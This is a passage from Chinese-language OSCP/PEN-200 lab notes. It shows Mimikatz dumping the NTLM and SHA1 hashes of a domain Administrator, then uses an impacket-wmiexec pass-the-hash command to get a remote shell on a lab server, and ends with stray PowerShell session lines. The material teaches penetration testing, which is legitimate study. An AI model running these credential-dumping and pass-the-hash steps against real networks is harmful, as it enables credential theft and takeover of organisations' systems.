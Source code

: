 ```
Logon Server      : SERVERWK248
Logon Time        : 2/16/2025 10:40:09 PM
SID               : S-1-5-21-1711441587-1152167230-1972296030-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : CORP
         * NTLM     : 160c0b16dd0ee77e7c494e38252f7ddf
         * SHA1     : 2b26e304f13c21b8feca7dcedb5bd480464f73b4
         * DPAPI    : 8218a675635dab5b43dca6ba9df6fb7e
        tspkg :
        wdigest :       KO
        kerberos :
         * Username : Administrator
         * Domain   : CORP.COM
         * Password : (null)
        ssp :
        credman :
        cloudap :

...
mimikatz #
```
> `sekurlsa::logonpasswords`: dump all available credentials\
> domain user 不會存在 SAM, 因此不會使用 `lsadump::sam`\
> (可參見: [#Cracking NTLM 2.3](https://github.com/Chw41/OffSec-Certification/blob/main/%5BOSCP%2C%20PEN-200%5D%20Offensive%20Security%20Certified%20Professional%20/Instructional%20notes/%5BOSCP%2C%20PEN-200%5D%20Instructional%20notes%20-%20Part%202.md#23-%E6%8F%90%E5%8F%96%E6%98%8E%E6%96%87%E5%AF%86%E7%A2%BC%E5%92%8C%E5%AF%86%E7%A2%BC%E9%9B%9C%E6%B9%8A))


以上透過 Mimikatz 取得本機 offsec 使用者的憑證資訊，也從 CORP.COM domain 中獲得管理員使用者的資訊：
```
User Name         : offsec
Domain            : CLIENTWK246
Logon Server      : CLIENTWK246
...
* NTLM     : 2892d26cdf84d7a70e2eb3b9f05c425e

User Name         : Administrator
Domain            : CORP
Logon Server      : SERVERWK248
...
* NTLM     : 160c0b16dd0ee77e7c494e38252f7ddf
```

#### 3. 將取得的 credentials 利用 pass-the-hash attack
可以利用以上 Administrator 資訊， 透過 pass-the-hash attack 存取 SERVERWK248 (192.168.145.248) 
```
┌──(chw㉿CHW)-[~]
└─$ impacket-wmiexec -debug -hashes 00000000000000000000000000000000:160c0b16dd0ee77e7c494e38252f7ddf CORP/Administrator@192.168.145.248
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[*] SMBv3.0 dialect used
[+] Target system is 192.168.145.248 and isFQDN is False
[+] StringBinding: SERVERWK248[57267]
[+] StringBinding: 192.168.145.248[57267]
[+] StringBinding chosen: ncacn_ip_tcp:192.168.145.248[57267]
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
corp\administrator
```

[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> cd C:\
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> pwd
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> dir